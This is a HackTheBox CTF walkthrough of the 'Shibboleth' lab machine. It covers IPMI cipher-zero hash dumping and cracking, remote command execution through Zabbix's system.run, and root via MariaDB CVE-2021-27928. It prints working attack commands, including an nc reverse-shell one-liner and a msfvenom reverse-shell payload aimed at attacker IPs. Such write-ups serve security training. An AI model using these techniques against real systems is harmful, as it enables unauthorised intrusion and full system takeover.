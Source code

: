 ```yaml
---
title: Shibboleth 
category: BOX - MEDIUM
type: htb_box
layout: page
img-link: images/shibboleth/1.png
desc: 10.10.10.158 - [MEDIUM] Json by Altelus
tags: Json writeup hackthebox
---
```



# [MEDIUM] Shibboleth <br/>

![Shibboleth icon](images/shibboleth/1.png# icon)

## Enumeration
### NMAP

Starting to port scan using nmap. The following command is used to check the open ports only.
<br />

```bash
nmap -p- --min-rate 10000 10.10.11.124 -vvv 2>&1 | grep "Discovered open" | awk '{ print $4 }' | cut -d "/" -f 1
```
<br />Then the output is them passed to another nmap scan but this time it will do banner grabbing.
<br />

```bash

# Nmap 7.91 scan initiated Tue Mar 15 12:27:25 2022 as: nmap -sV -sC -p 80 -vvv -oA nmap-output-services.tcp 10.10.11.124
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up, received echo-reply ttl 63 (0.35s latency).
Scanned at 2022-03-15 12:27:25 EDT for 15s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: FlexStart Bootstrap Template - Index

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 15 12:27:40 2022 -- 1 IP address (1 host up) scanned in 14.81 seconds

```
<br />Quite unusual for an HTB box but it only has one open port which is port 80. This is the snip of the fron page looks like.<br />
![Shibboleth Front Page](images/shibboleth/2.png)
<br />There is nothing here but a simple static page. Next is to try guessing any virtual hosts. I used ffuf.
<br />
### VHOST Enumeration

```bash
ffuf -u http://shibboleth.htb/ \
    -w <>/Discovery/DNS/subdomains-top1million-110000.txt \
    -H Host: FUZZ.shibboleth.htb -o vhosts -fc 302
```
<br /> ```-fc 302``` is added since without it any subdomain send to the server will redirect to the main site. We have to filter out status codes 302. Once the scan is finished, here is the result from the output file:
<br />
```bash 
cat ffuf/vhost/vhosts | jq | grep shibboleth.htb | grep "host"
```
<br />![Shibboleth vhosts](images/shibboleth/3.png)
<br />As can be seen, 3 subdomains can be seen:
- zabbix.shibboleth.htb
- monitor.shibboleth.htb
- monitoring.shibboleth.htb

<br />This is what they all look like when visited.<br />
![Shibboleth vhosts front page](images/shibboleth/4.png) 

### UDP Scanning
We don't have any credentials to enter in the login page. Simple admin/password and other usual creds and even default zabbix username password (Admin/zabbix) doesn't work. We have to enumerate the box more. UDP enumeration hasn't been done yet.
<br />Using the following command to enumerate UDP:
<br />
```bash
sudo nmap -sU --min-rate 10000 shibboleth.htb -vvv 
```
<br />Port 623 is open.<br />
![Port UDP 623 open](images/shibboleth/5.png# medium)
<br />Next step is to banner grab.
<br />
```bash
sudo nmap -sU -sC --min-rate 10000 -p 623 shibboleth.htb -vvv
```
<br />![623 result](images/shibboleth/6.png# medium)
<br />Looks like nmap doesn't showed much result that is needed. Looking from this [site](https://www.speedguide.net/port.php?port=623), it seems that this is an IPMI service. Also [hacktricks](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) has a great amount of information on how to enumerate and exploit this kind if service.
<br />We can use the metasploit console and IPMI modules 
<br />

### Exploiting IPMI Service
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```
<br />![msfconsole ipmi version](images/shibboleth/7.png)
<br />We want to check if the IPMI service is vulnerable to cipher 0. 
<br />
```bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run
```
<br />![msfconsole ipmi cipher zero](images/shibboleth/8.png)
<br />As can be seen it is vulnerable. Let's dump the hashes.
<br />
```bash
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
<br />![msfconsole dump hashes](images/shibboleth/9.png)
<br />We can save the hash part and try cracking it with hashcat
<br />
```bash
hashcat -m 7300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<br />In hashcat the mode for IPMI2 RAKP HMAC-SHA1 is 7300.
<br />![hashcat crack](images/shibboleth/10.png)

### Logging In into Zabbix Dashboard
Creds is ```Administrator:ilovepumkinpie1```. We can test this credentials on the vhosts discovered.
<br />![zabbix login](images/shibboleth/11.png)
<br />As can be seen the creds worked.

### Running Script Items in Zabbix Dashboard

In [Zabbix documentation](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent), you can create an item with a supported key ```system.run``` that executes command on zabbix agent. To do this, from the home dashboard, go to ```Configuration```
<br />![conf](images/shibboleth/12.png# medium-p)
<br />Then, select ```Hosts```
<br />![conf](images/shibboleth/13.png# medium-p)
<br />Then the Hosts page will be loaded. There will be list of hosts and in this case there is only one which is ```shibboleth.htb```. Click the ```items```
<br />![conf](images/shibboleth/14.png# medium)
<br />Then on the upper left, there is an button ```Create Item```. Click it.
<br />![conf](images/shibboleth/15.png# medium)
<br />A form will pop up. The Name field can be of any value. The important here is the key. The following Key value is set: ```system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 9999 >/tmp/f, nowait]```. This is a reverse shell
<br />![conf](images/shibboleth/16.png# medium)
<br />To execute it, Select Test...
<br />![conf](images/shibboleth/17.png# medium)
<br />...then click ```Get value and Test```. It should execute the command. 
<br />![conf](images/shibboleth/18.png# medium)
<br />![conf](images/shibboleth/19.png# medium)

### Whoami and Privesc to ipmi-svc

After turning the shell into an interactive TTY, we can now snoop around. Turns out we are ```zabbix``` as user but the user goal for this is ```ipmi-svc```.
<br />![user zabbix](images/shibboleth/20.png)
<br />We need to privesc to ```ipmi-svc```. Trying the same password from the Zabbix dashboard. ```ipmi-svc:ilovepumkinpie1```
<br />![user ipmi-svc](images/shibboleth/21.png# medium)
<br />It turns out same password was used. We got user.

## Root Privesc 

### Zabbix configuration in /etc/zabbix
Checking the environmental variables of ```ipmi-svc``` there is a zabbix conf in one of them
<br />![user ipmi-svc](images/shibboleth/22.png# medium).
<br />Let's check if there are other configuration files we can look at in ```/etc/zabbix```
<br />![user ipmi-svc](images/shibboleth/23.png# medium)
<br />The last 2 files seems to be interesting and can only be read by ipmi-svc. Turns out this conf has mysql password and username.
<br />![user ipmi-svc](images/shibboleth/24.png# medium)
<br />Let's try this creds on mysql: ```zabbix:bloooarskybluh```
<br />![user ipmi-svc](images/shibboleth/25.png# medium)
<br />Nice! The creds worked. Notice that the copyright is in 2000, 2018. This mariadb may be out of date and possibly vulnerable. 

### Running Processes - Mysql
When running ```ps -aef --forest```, it can be seen that the mysql server is running as root.
<br />![user ipmi-svc](images/shibboleth/26.png)
<br />We also noticed that the mysql may be out of date. Let's check then if there are any existing exploit for mysql MariaDB ```10.3.25 MariaDB ```. Turns out an [exploit procedure exists - CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928) for this version of mysql MariaDB.

### Mysql Exploitation (CVE-2021-27928)
Following the exploitation process. Creating the .so through msfvenom
<br />
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=10000 -f elf-so -o CVE-2021-27928.so
```
<br />![user ipmi-svc](images/shibboleth/27.png)
<br />Now we have to transfer the .so file to the target host. We can serve it through http.server. After getting it we have to login to mysql and set wsrap_provider to the .so file. We should be able to execute commands as root
<br />![user ipmi-svc](images/shibboleth/28.png)
<br />![user ipmi-svc](images/shibboleth/29.png# medium)
<br />The exploit worked! We have pwned the Shibboleth Machine.




<br />
<br />
<br />
<br />
